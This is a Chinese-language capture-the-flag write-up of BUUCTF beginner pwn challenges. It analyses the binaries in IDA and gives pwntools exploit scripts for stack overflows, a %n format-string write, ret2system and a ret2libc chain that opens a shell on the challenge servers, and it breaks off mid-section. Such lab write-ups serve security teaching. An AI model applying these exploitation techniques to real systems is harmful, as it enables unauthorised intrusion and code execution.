


# BUUCTF

## rip


危险函数：


可以看到很明显的 `"/bin/sh"` ,然后看ida下面的地址 `0x0040118A`


然后再看main函数里面的gets，获取用户输入参数的s，已知s为char型，并且为15位，

所以构造思路应该是15位装满，再加跳到返回函数中，恰好为fun函数入口


```python
from pwn import *

p = remote('node3.buuoj.cn', 28957)

#payload = 'a' * (0xf + 0x8) + p64(0x401198) + p64(0x401186) 也可以，是网上wp的修改
payload = 'a' * 15 + p64(0x401186).decode('unicode_escape')

p.sendline(payload)

p.interactive()

```


但是后续还是建议直接用偏移量算入口指令，而不是入口函数来算


## warmup_csaw_2016


可以看到我们输入的地方就是v5，然后v5有64位char型，双击进入stack


看到偏移8位就可以到返回函数

然后再看到我们需要注意的地方cat flag.txt


指令入口为 ：  `0x00400611`

至此，可以写payload如下：

```python
from pwn import *

p = remote('node5.buuoj.cn', 28758)

payload = 'a' * (64+8) + p64(0x00400611).decode('unicode_escape')

p.sendline(payload)

p.interactive()
```


## ciscn_2019_n_1


还是一样思考

找危险函数在哪：


本题没有直接的危险函数可以接触了，而是通过v2的值判断来进入，但是我们并不能直接修改v2的值，而是修改v1的值，所以应该能猜测，v1溢出，然后将v2的值改为11.28125


双击点v1的值，顺带v2的也出来了


所以可以看到v1是0x30，v2是0x04

所以填满v1再加上偏移量11.28125即可，只不过11.28125需要转换为十六进制，仔细在View-A里面找，也是直接有的：


故最终的exp：

```python
from pwn import *

p = remote('node5.buuoj.cn', 26100)

payload = 'a' * (0x30 - 0x04) + p64(0x41348000).decode('unicode_escape')

p.sendline(payload)

p.interactive()
```


## pwn1_sctf_2016

拉进die查看，发现是32位的，直接ida32启动！

查看危险函数，cat flag.txt



指令入口地址为 ： `0x08048F13`


找我们能操作的变量是啥：


可以看到fgets 就是s这个变量

但值得注意的是，下面的函数有replace，会将我们传进去的I变为you，所以计算需要注意

双击S，可以看到


然后要直接溢出到末尾：


如果是看vuln函数里面的32，就溢出到下一个变量，而我们需要溢出到返回函数里头

所以就是0x3C / 3 个 ”I“   然后会被替换成 0x3C 个 ”you“

此时来到了0x04这个地方，我们再填入4个'a'

就可以溢出了。

最终的payload为： 

```python
from pwn import *

p = remote('node5.buuoj.cn', 29315)

payload = 'I' * 20  + 'a' * 4 + p32(0x08048F13).decode('unicode_escape')

p.sendline(payload)

p.interactive()
```


## jarvisoj_level0


危险函数地址：


能操作的地址：


最终exp：

```python
from pwn import *

p = remote('node5.buuoj.cn', 26231)

payload = 'a' * (128+8)  + p64(0x0040059A).decode('unicode_escape')

p.sendline(payload)

p.interactive()
```


## [第五空间2019 决赛]PWN5

难度上升了，有两种思路解决


main函数里面可以看到对read等函数进行了限制：


这里的考点就是使用格式化输出进行溢出

这里需要前置知识点

%n：将%n之前printf已经打印的字符个数赋值给偏移处指针所指向的地址位置

例如：printf("0x44444444%2$n")意思就是说在打印出0x4444这个字符后，将“0x44444444”所输入的字符数量（此处是4）写入到%2$n所指的地址中.


可以看到主要逻辑就是程序随便取一个数，然后你上传用户名字，然后密码要和程序取的随机数要一样，才能够执行系统函数


已知这个随机数存储在 `0x0804C044` 


然后我们看一下printf出来的地址在哪里？


a小写字母为61，所以输出就是61616161

那就数数嘛，一个.为分隔符

然后数到10

所以可以肯定后面就是 `%10$n`


然后密码部分就和 `dword_804C044` 

```python
from pwn import *

r=remote('node5.buuoj.cn',29211)

target=0x804c044
pay=p32(target)+b'%10$n'        

r.recvuntil(':')
r.sendline(pay)

r.recvuntil(':')
r.sendline(str(4))     #写入了四字节，因此此处应写入4

r.interactive()
```


## jarvisoj_level2


main函数找危险函数入口，可惜没有，但是找到唯一可以传进去的值就是buf


虽然read有做输入限制，但是0x100 - 0x80 还是有空间来进行溢出的


搜索字符串，可以发现一个/bin/sh



但是可以发现他不是直接执行的，猜测就是有个system函数溢出调用这个地址的数据作为命令执行

跳转system函数


可以看到两个关键的地址


还是老规矩溢出buf


最后的payload：注意一点就是顺序绝对不能变化，因为溢出是有顺序的，思路就是buf溢出到返回函数，然后调用到system函数的地址，然后执行的数据在hint里面，那个p32(0)，里面的数据可以是任意的

因为：32位的分布是这样子的，返回地址+下一次的返回地址+参数1+参数2+...这样子因为我们下一次返回地址是啥都行，我们拿到shell就跑了，所以直接为0


最终exp：

```python
from pwn import *

r = remote('node5.buuoj.cn',29222)

hint = 0x804A024
system = 0x8048320

payload = 'a' * (0x88 + 0x04) + (p32(system) + p32(0) + p32(hint)).decode('unicode_escape')

r.sendline(payload)

r.interactive()
```


## ciscn_2019_n_8

点开main函数：


惊讶发现var是个全局变量，没在main里面定义，双击查看

bss静态存储区，那我们不能跳了


再看main函数后面的，发现他只是一个简单的比较就可以拿到shellcode了

```
*(_QWORD *)&var[13] == 0x11LL
```

发现：
qword全称是Quad Word

2个字节就是1个Word（1个字，16位）

q就是英文quad-这个词根（意思是4）的首字母

所以它自然是word（2字节，0~2^16-1）的四倍，8字节

所以前13位要为'aaaa'，4倍


最终exp：

```python
from pwn import *

r = remote('node5.buuoj.cn',25756)

payload = 'a' * (13*4)   +  (p32(0x11) + p32(0)).decode('unicode_escape')

r.sendline(payload)

r.interactive()
```


## bjdctf_2020_babystack

同理：main函数：


可以发现这里有两个可以上传的值，一个是nbytes，用来限制保护后面传的buf，但是它可以被我们控制，所以我们应该直接传最大值，啥都不管。

然后看到buf才是我们主要用的

双击可以看到：


要溢出到返回函数那里去，大小就是0x10 + 0x08 


然后看到有个backdoor函数，看他的地址即可：


溢出到入口函数也是可以的，看你喜欢


然后最终exp为：

```python
from pwn import *

r = remote('node5.buuoj.cn',29674)

backdoor = 0x004006EA

payload = 'a' * (0x10 + 0x08)   +  (p64(backdoor)).decode('unicode_escape')

r.sendline(str(255))

r.recvuntil('?')
r.sendline(payload)
r.interactive()
```


## ciscn_2019_c_1


check一下64位开启nx保护，部分relro


程序有个没有限制的gets，所以这里应该会有栈溢出，但是没有在程序里面看到system和/bin/sh字符串的形式，后面又有一个puts，所以可以尝试一下puts当前puts的地址，然后就是标准的ret2libc


看一下rdi和ret的地址


```
rdi_addr = 0x400c83
ret_addr = 0x4006b9
```


```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

ip = "node5.buuoj.cn"
port = 28831

p = remote(ip,port)
elf = ELF('./pwn')

rdix_addr = 0x400c83
retx_addr = 0x4006b9 
encrypt_addr = 0x04009A0

offset = b'\0' + b'a'* (0x50 + 0x08-1)
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
# encrypt_addr = elf.symbols['encrypt']

payload = offset
payload += p64(rdix_addr) + p64(puts_got)
payload += p64(puts_plt) 
payload += p64(encrypt_addr)

p.recvuntil(b'Input your choice!\n')
p.sendline(str(1))

p.recvuntil(b'Input your Plaintext to be encrypted\n')
p.sendline(payload)
p.recvline()
p.recvline()

puts_addr = u64(p.recvuntil(b'\n')[:-1].ljust(8,b'\0'))

libc = LibcSearcher("puts",puts_addr)

libc_base = puts_addr - libc.dump('puts')

system_addr = libc_base + libc.dump('system')

binsh_addr = libc_base + libc.dump('str_bin_sh')

payload_exp = offset

payload_exp += p64(retx_addr) + p64(rdix_addr)

payload_exp += p64(binsh_addr) + p64(system_addr)

p.recvuntil(b'Input your Plaintext to be encrypted')
p.sendline(payload_exp)

p.interactive()
```


拿到flag：

```
flag{3f6ddea2-b817-4c30-87a5-932479cd6e00}
```


## get_started_3dsctf_2016


check一下 32位，partial relro，nx开启

ida打开好像似曾相识

main函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[56]; // [esp+4h] [ebp-38h] BYREF

  printf("Qual a palavrinha magica? ", v4[0]);
  gets(v4);
  return 0;
}
```


flag函数在这里：

```c
void __cdecl get_flag(int a1, int a2)
{
  int v2; // esi
  unsigned __int8 v3; // al
  int v4; // ecx
  unsigned __int8 v5; // al

  if ( a1 == 814536271 && a2 == 425138641 )
  {
    v2 = fopen("flag.txt", "rt");
    v3 = getc(v2);
    if ( v3 != 255 )
    {
      v4 = (char)v3;
      do
      {
        putchar(v4);
        v5 = getc(v2);
        v4 = (char)v5;
      }
      while ( v5 != 255 );
    }
    fclose(v2);
  }
}
```


要传入形参，找pop2ret1的，但这里是32位，所以直接找rax


测出偏移量为：


